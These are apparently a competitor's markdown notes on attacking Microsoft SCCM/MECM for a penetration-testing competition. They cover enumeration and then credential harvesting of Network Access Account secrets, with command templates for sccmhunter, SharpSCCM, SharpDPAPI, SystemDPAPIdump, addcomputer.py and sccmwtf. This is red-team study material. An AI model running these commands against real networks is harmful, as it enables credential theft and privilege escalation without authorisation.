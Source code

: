 # SCCM

SCCM (now MECM and previously SMS) is the System Center Configuration Manager.

It is an on-prem AD-integrated solution that aims to handle path management, task automation, remote control, and often is joined with OS deployment (through PXE). 

There is now a cloud native version from MS called Intune

* CPTC has historically made "trendy" vulns a big part of that year's competition (which is why I have a separate document for SCCM).
	* CHECK THE COMMITS,,, I PUSHED BEFORE THE DEADLINE 

**Important Definitions**:

* Site Server: The server that hosts the SCCM site
	* Will always have a 3-letter site code
* Network Access Account (NAA)
	* Used to authenticate to the SCCM server if the machine isn't domain-joined yet
	* This is widely used, but is not required. Enhanced HTTP is a more secure alternative
* Client Push Installation Accounts (Push Account)
* (WSUS) 
* Operating System Deployment (OSD)
	* SCCM can deploy windows onto multiple machines at once through PXE (Network Boot)
	* This happens through a PXE server, which happens through a "wim" file
	* There should be a password requested when the installer is run - but this is often not the case
	* After network boot, the OS image will be transferred via HTTP and installed. The machine will then be domain joined and programs will be configured

## Enumeration

Linux:

* [**PXEThief**](https://github.com/MWR-CyberSec/PXEThief)

* [**sccmhunter**](https://github.com/garrettfoster13/sccmhunter)

`python3 sccmhunter.py find -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`

`python3 sccmhunter.py smb -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`


`python3 sccmhunter.py show -users`

`python3 sccmhunter.py show -computers`

Windows:

* Go to `Control panel > Configuration Manager`
	* If SCCM is on the domain, you'll see an assigned management point and a site code

`.\SharpSCCM.exe local site-info`


## Privilege Escalation

### Credential Harvesting

**NAA**:
* If you are a local admin on the SCCM client

Linux:
`SystemDPAPIdump.py <domain>/<low_priv_user>:'<password>'@<server>`

Windows:
`.\SharpSCCM get secrets`

`.\SharpSCCM local secrets -m wmi`

`.\SharpDPAPI SCCM`

* If you are not a local admin, you can make a machine account (all non-privileged users can make 10 machine accounts by default)

`addcomputer.py <domain>/<low_priv_user>:'<password>' -dc-ip <dc ip>`

* [**sccmwtf**](https://github.com/xpn/sccmwtf)

`sccmwtf.py <new machine hostname> <new machine fqdn> <sccm site server hostname (use fqdn in /etc/hosts if not resolving)> '<domain>\<new machine hostname>$' '<new machine password>`

`.\sccm-decrypt.exe <CDATA>`
	
### 


## Lateral Movement

